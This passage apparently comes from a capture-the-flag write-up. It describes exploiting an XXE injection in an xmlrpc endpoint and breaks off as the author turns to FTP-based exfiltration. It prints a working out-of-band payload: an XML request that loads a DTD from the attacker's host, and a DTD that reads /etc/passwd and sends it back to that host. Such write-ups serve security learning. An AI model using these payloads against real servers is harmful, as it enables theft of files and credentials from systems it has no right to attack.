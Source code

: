 
It's possible to do various things with such vulnerabilities, for example, it's possible to read files on the remote server and even extract them to our machine.
We can find help in many websites to find example attack and payloads, for example on https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection

After playing for a while whith various payload, I managed to find a way to read files on the target system :

We send this XML request to xmlrpc : 
```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY % pe SYSTEM "http://My.IP:8888/test.dtd"> %pe; %param; ]>
<test>&final;</test
```
This will make a request to load in execute an other payload hosted in my server, in a file test.dtd :
```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param "<!ENTITY final SYSTEM 'http://My.IP:8888/%file;'>">
```
Finally, it should send me the result back to my server again (here with the base64 encoded /etc/passwd)

<img src="../Images/13.png" width="900" />

It worked ! but not entirely tough..
The target loaded the payload hosted on my server, but then it failed to exfiltrate the content of /etc/passwd because it creates a too long url for the parser. Hopefully, the error message display a part this content. 
At this point, we can print the content of small files or part of bigger files. but we cannot access big giles entirely.
After ton of research in basic linux files, I did not find any things related to the flag, so I tried to find a way to exfiltrate BIG files.
I saw in the documentation that it was possible to exiltrate file with ftp, so I tried and modified my payload :
